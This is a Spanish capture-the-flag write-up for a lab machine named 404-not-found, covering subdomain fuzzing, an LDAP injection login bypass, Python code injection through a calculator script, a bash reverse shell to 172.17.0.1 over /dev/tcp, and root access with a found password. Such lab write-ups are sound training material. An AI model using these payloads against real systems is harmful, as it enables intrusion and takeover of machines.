 nmap: 22,80

![image](https://github.com/user-attachments/assets/2b6eed0f-c4b9-4bcb-b84d-3fbfe9437982)


---
al hacer el nmap vemos que el puerto 80 tiene una pagina con "hl" al final

![image](https://github.com/user-attachments/assets/00fb62a3-401f-40ce-a6c6-046641820ccd)

lo que tenemos que agregar esa redirección en el  "/etc/hosts"
http://404-not-found.hl/

en la pagina principal ahora vemos eso y aceptamos el desafio:

![image](https://github.com/user-attachments/assets/ca2f05b7-9e39-4c8b-b1c6-ab6cef4f2fd4)


en la pagina hay cuadros con "pistas". hay una en código base64 

![image](https://github.com/user-attachments/assets/21c6bc7f-4b39-4991-b972-2e4f1fbf9b75)


que lo sacamos:
>echo "`UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu`" | base64 -d 

![image](https://github.com/user-attachments/assets/6ec0aa26-5305-4c98-8661-c514c470e5e8)


y nos da: Que haces?, mira en la URL. 

hacemos un:


    - wfuzz -c -u 404-not-found.hl -H "HOST: FUZZ.404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 28

nos da: info

![image](https://github.com/user-attachments/assets/e26da39b-a5fd-47dd-8b60-3489ca23bc2a)


metemos ese info en /etc/host como el primer URL que tenemos.
http://info.404-not-found.hl/
quedaría: info.404-not-found.hl

![image](https://github.com/user-attachments/assets/326bd27a-8218-48a8-8afe-9fff9203851d)


nos manda a un login y vamos probando credenciales por default. 
vemos el código fuente y al final hay un mensaje:
> I believe this login works with LDAP
> 
![image](https://github.com/user-attachments/assets/d2ed5af5-49d9-4b99-b3b5-c9694372c261)


buscamos credenciales de inyección de LDAP
probamos las inyección que tiene: https://book.hacktricks.xyz/v/es/pentesting-web/ldap-injection

![image](https://github.com/user-attachments/assets/7a5b62ab-8c46-4f74-bdb1-59d1f49849b7)

y sirve: 

        user=*)(|(&
         pass=pwd)

en el panel de admin nos da las credenciales: 

       - Nombre de usuario: `404-page`
       - Contraseña: `not-found-page-secret`

![image](https://github.com/user-attachments/assets/b5768cb3-21d1-44b2-a00b-df510322316e)


entramos por el ssh en el terminal y ahora buscamos como escalar hacia root.

![image](https://github.com/user-attachments/assets/c83ef588-3f2f-4658-8b07-95b98ff1dc96)


como se ve hay un calculadora.py se refiere a python y solo podemos ejecutar.

![image](https://github.com/user-attachments/assets/f6823809-e7f4-49d4-94ab-c37a7f896524)


encontramos un comando para ejecutar con python del programa que encontramos:
https://snyk.io/blog/command-injection-python-prevention-examples/

![image](https://github.com/user-attachments/assets/6d7098a9-2ec1-4a2d-8d01-b0f91aa1a879)


comando de ejecución:

     __import__('os').popen('ls').read()

![image](https://github.com/user-attachments/assets/aab997c9-6d97-4236-b52d-48cde834676b)


lo modificamos para una reverse shell para verificar: 

         __import__('os').popen("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'").read()

colocamos el puerto en escucha y estamos dentro del usuario 200-ok

![image](https://github.com/user-attachments/assets/ad34b515-d69e-4277-a76c-0c78e57d873c)

 buscamos como escalar y aparece un txt que se llama: 
>boss.txt que contiene: what is rooteable

![image](https://github.com/user-attachments/assets/6c1e67b2-2197-4aa4-8ffa-599292173d1e)


probamos rooteable como contraseña de root:

![[root.png]]

su root / rooteable y somos root!: 
